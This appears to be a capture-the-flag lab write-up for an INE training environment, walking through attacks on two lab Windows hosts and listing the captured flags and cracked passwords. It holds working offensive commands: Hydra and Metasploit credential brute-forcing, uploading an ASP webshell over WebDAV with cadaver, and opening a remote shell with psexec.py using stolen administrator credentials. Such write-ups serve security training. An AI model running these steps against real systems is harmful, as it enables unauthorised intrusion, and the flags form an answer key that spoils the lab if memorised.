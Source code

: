 
---

# Lab Environment

In this lab environment, you will be provided with GUI access to a Kali Linux machine. Two machines are accessible at **http://target1.ine.local** and **http://target2.ine.local**.

**Objective:** Perform system/host-based attacks on the target and capture all the flags hidden within the environment.

**Useful files:**

```
/usr/share/metasploit-framework/data/wordlists/common_users.txt, 
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt,
/usr/share/webshells/asp/webshell.asp
```

**Flags to Capture:**

- **Flag 1**: User 'bob' might not have chosen a strong password. Try common passwords to gain access to the server where the flag is located. (target1.ine.local)
- **Flag 2**: Valuable files are often on the C: drive. Explore it thoroughly. (target1.ine.local)
- **Flag 3**: By attempting to guess SMB user credentials, you may uncover important information that could lead you to the next flag. (target2.ine.local)
- **Flag 4**: The Desktop directory might have what you're looking for. Enumerate its contents. (target2.ine.local)

# Tools

The best tools for this lab are:

- Nmap
- Hydra
- Cadaver
- Metasploit Framework

---

## First Target

We will start with Nmap scan:`nmap -Pn -A -v -p- target1.ine.local`

We find that the first target is running a http server. If we visited the website, we find that it is blocked behind a login prompt. The lab instructions told us that the username is bob. We only need to find valid password for this username, and for this, we will use hydra:`hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get`

The valid password for username bob is :"password_123321"

Now, to perform a directory search by also providing valid credentials, we will use dirb:`dirb http://target1.ine.local/ -u bob:password_123321` 

We find that Webdav is running on the target.

To test what files can be uploaded and ran on Webdav, we will use davtest:`davtest -auth bob:password_123321 -url http://target1.ine.local/webdav/` 

One of the files that can be uploaded and executed is a .asp file. This is great since Kali comes with a reverse web shell .asp file and this could be found in:"/usr/share/webshells/asp/webshell.asp"

To upload the file, we will use cadaver: `cadaver http://target1.ine.local/webdav`

After providing the valid credentials for user bob, we will upload the .asp payload file: `put /usr/share/webshells/asp/webshell.asp `

This will upload the file to the webserver and we can execute it if we clicked on the file name in the webdav directory.

This code gives us a text field where we can execute commands, to get the second flag:`type "C:\flag2.txt"` The first flag can be found in the webdav directory

**First flag**: cb021a24cb874d96a59a071f96107b02

**Second flag:** af66042fa2d84bf5bde439eef72ce4e1

---

## Second Target:

We will start with Nmap scan:`nmap -Pn -A -v -p- target1.ine.local` . This target is clearly running a smb server, we will use Metasploit to get valid credentials.

After starting msfconsole, we will use this auxiliary module: "scanner/smb/smb_login" to brute-force the smb service to get valid credentials. After setting the right settings for the user_file, pass_file and RHOSTS, we will get these credentials:
rooty:spongebob
demo:password1
auditor:hellokitty
administrator:pineapple. 
We need to make sure that STOP_ON_SUCCESS option is set to false.

Since we have valid credentials, we will use psexec.py to have a reverse shell on the target machine. We will find psexec.py in : /usr/share/doc/python3-impacket/examples.

We will use the administrator credentials: `python3 ./psexec.py administrator:pineapple@(second target IP)`

We will get reverse shell to the target.

We will find the third flag in the "C:" directory and the forth flag in:"C:\Users\Administrator\Desktop"

**Third flag:** bcb8d43900474106823bba1f4a28268d
**Forth flag:** 6526b42fe35340ed864de9041c0cac55


